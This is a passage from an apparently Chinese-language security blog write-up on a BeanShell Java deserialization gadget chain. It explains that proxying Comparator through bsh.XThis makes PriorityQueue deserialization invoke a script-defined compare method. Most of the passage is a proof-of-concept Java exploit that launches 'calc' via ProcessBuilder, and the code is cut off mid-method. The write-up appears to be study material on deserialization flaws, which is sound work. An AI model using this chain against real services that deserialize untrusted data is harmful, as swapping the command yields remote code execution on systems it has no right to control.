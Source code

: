 它调用了 invokeImpl 方法
![](https://img-blog.csdnimg.cn/f67f28343081486dbc6ffae84c5a5c98.png)

调用 invokeMethod 执行对应的方法
![](https://img-blog.csdnimg.cn/bbbd64cf65f84426aff94df481916d86.png)

我们可以使用 XThis 中的 Handler 来动态代理 Comparator ，这样在反序列化 PriorityQueue 时会触发 Comparator 的 compare 方法，会调用 XThis 中 Handler 的 invoke 方法，由于这个动态代理类可以调用 Bsh 脚本中的方法，我们可以提前在 XThis 中的 NameSpace 中定义好一个 compare 方法，这样在就能在动态代理中完成调用

POC：
```java
import bsh.Interpreter;
import bsh.NameSpace;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.Comparator;
import java.util.PriorityQueue;

public class BeanShell {
    public static void main(String[] args) throws Exception{
        String compareMethod = "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{\"calc\"}).start();return new Integer(1);}";

        Interpreter interpreter = new Interpreter();
        interpreter.eval(compareMethod);

        Class clz = Class.forName("bsh.XThis");
        Constructor constructor = clz.getDeclaredConstructor(NameSpace.class, Interpreter.class);
        constructor.setAccessible(true);
        Object xt = constructor.newInstance(interpreter.getNameSpace(),interpreter);

        InvocationHandler handler = (InvocationHandler) getField(xt.getClass(), "invocationHandler").get(xt);

        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[] queue = new Object[] {1,1};
        setFieldValue(priorityQueue, "queue", queue);
        setFieldValue(priorityQueue, "size", 2);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(priorityQueue);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
```